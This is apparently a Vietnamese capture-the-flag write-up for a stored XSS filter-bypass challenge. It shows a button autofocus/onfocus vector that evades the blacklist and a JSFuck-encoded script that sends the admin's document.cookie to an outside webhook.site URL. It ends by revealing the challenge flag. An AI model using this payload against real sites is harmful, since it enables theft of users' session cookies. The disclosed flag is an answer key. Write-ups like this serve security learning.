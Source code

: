```diff
@@ Web-Client Challenge @@
```

## XSS - Stored - filter bypass [80 Points]

* Mục tiêu của challenge:  Ta sẽ phải để lại một payload XSS để khi **Administrator** đọc nó thì ta sẽ thu được cookie của admin

  ![13](img/13.jpg)

  ​

* Kiểm tra ta thấy trang web filter các ký tự như ```<script>``` , ```</script>``` hoặc các Event kích hoạt script inline như ```onerror```, ```onload```,.... khi chúng đi kèm dấu ```=``` ; Hoặc ngay cả các thuộc tính của ```document``` như ```document.location``` hay ```document.cookie``` ... Đều bị filter nghiêm ngặt

* Tuy nhiên các thẻ HTML thì lại có thể được chấp thuận

  ![13-1](img/13-1.jpg)

  ​

* Ta cần kích hoạt được XSS inline trong các thẻ HTML này khi các sự kiện bị block. Sau khi thử rất nhiều mà không được thì em quyết định tìm kiếm **Hint** thì em biết còn sự kiện ```onfocus``` của thẻ ```<button>``` bị bỏ quên bởi blacklist của trang web (chỉ duy nhất thẻ button này:) ). Tìm kiếm thêm thì còn có thuộc tính ```autofocus ``` giúp tự trigger sự kiện ```onfocus``` . Công việc còn lại là ẩn dấu script của chúng ta (các từ như ```document.cookie``` cần phải được mã hóa), ở đây em sử dụng **JSFUCK** và có thể bypass được

* Payload khai thác:

  Conver cái script này sang dạng Jsfuck: ```document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(document.cookie)``` 

  Paste JsFuck trên vào tham số cho payload sau:

  ```<button autofocus onfocus=(eval)()></button>```

* Ta có kết quả như sau, cookie thu được chính là cookie của admin và là password của challenge này

  ![13-2](img/13-2.jpg)

  ​

* ```diff
  -- Flag: qa26f3ugb5tqv7o0mbvtv414u8
  ```